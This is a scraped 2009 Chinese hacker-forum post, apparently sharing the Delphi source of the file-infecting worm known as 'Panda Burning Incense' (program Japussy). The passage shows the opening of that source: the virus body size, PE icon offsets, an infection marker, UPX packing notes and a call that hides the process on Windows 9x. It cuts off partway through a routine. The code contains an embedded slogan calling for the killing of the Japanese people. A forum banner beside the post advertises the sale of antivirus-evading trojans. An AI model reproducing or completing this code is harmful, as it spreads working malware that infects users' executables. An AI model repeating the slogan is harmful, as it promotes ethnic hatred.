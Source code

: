 [张凯伦](http://bbs.hackerxfiles.net/space-uid-256130.html) *当前离线*
[![查看详细资料]()](http://bbs.hackerxfiles.net/space-uid-256130.html "查看详细资料")
[![]()](http://bbs.hackerxfiles.net/space-uid-256130.html)

*学前班*

帖子10 积分5 威望0 个 金币17 个 宣传0 个 注册时间2009-4-5 最后登录2009-8-27  **[*1*楼]( "复制本帖链接")**

[打印](http://bbs.hackerxfiles.net/viewthread.php?action=printable&tid=375697)

字体大小: tT

![]() *发表于 2009-8-7 11:55* | [只看该作者](http://bbs.hackerxfiles.net/viewthread.php?tid=375697&page=1&authorid=256130)

[承接免杀木马业务_出售各类免杀木马](http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL3NiYXBzcGwuMzMyMi5vcmcvb2trLmh0bWw=)

[![]()](http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL3d3dy53b3JtLXguY29t)
# [[原创]](http://bbs.hackerxfiles.net/forumdisplay.php?fid=13&filter=type&typeid=1) 熊猫烧香源代码

program Japussy;
uses
Windows, SysUtils, Classes, Graphics, ShellAPI{, Registry};
const
HeaderSize = 82432;                 //病毒体的大小
IconOffset = $12EB8;               //PE文件主图标的偏移量
//在我的Delphi5 SP1上面编译得到的大小，其它版本的Delphi可能不同
//查找2800000020的十六进制字符串可以找到主图标的偏移量
{
HeaderSize = 38912;                 //Upx压缩过病毒体的大小
IconOffset = $92BC;                 //Upx压缩过PE文件主图标的偏移量
//Upx 1.24W 用法: upx -9 --8086 Japussy.exe
}
IconSize       = $2E8;                 //PE文件主图标的大小--744字节
IconTail       = IconOffset + IconSize; //PE文件主图标的尾部
ID           = $44444444;             //感染标记
//垃圾码，以备写入
Catchword = ''''''''''''''''If a race need to be killed out, it must be Yamato. '''''''''''''''' +
            ''''''''''''''''If a country need to be destroyed, it must be Japan! '''''''''''''''' +
            ''''''''''''''''*** W32.Japussy.Worm.A ***'''''''''''''''';
{$R *.RES}
function RegisterServiceProcess(dwProcessID, dwType: Integer): Integer;
stdcall; external ''''''''''''''''Kernel32.dll''''''''''''''''; //函数声明
var
TmpFile: string;
Si:         STARTUPINFO;
Pi:         PROCESS_INFORMATION;
IsJap:       Boolean = False; //日文操作系统标记
{ 判断是否为Win9x }
function IsWin9x: Boolean;
var
Ver: TOSVersionInfo;
begin
Result := False;
Ver.dwOSVersionInfoSize := SizeOf(TOSVersionInfo);
if not GetVersionEx(Ver) then
      Exit;
if (Ver.dwPlatformID = VER_PLATFORM_WIN32_WINDOWS) then //Win9x
      Result := True;
end;
{ 在流之间复制 }
procedure CopyStream(Src: TStream; sStartPos: Integer; Dst: TStream;
dStartPos: Integer; Count: Integer);
var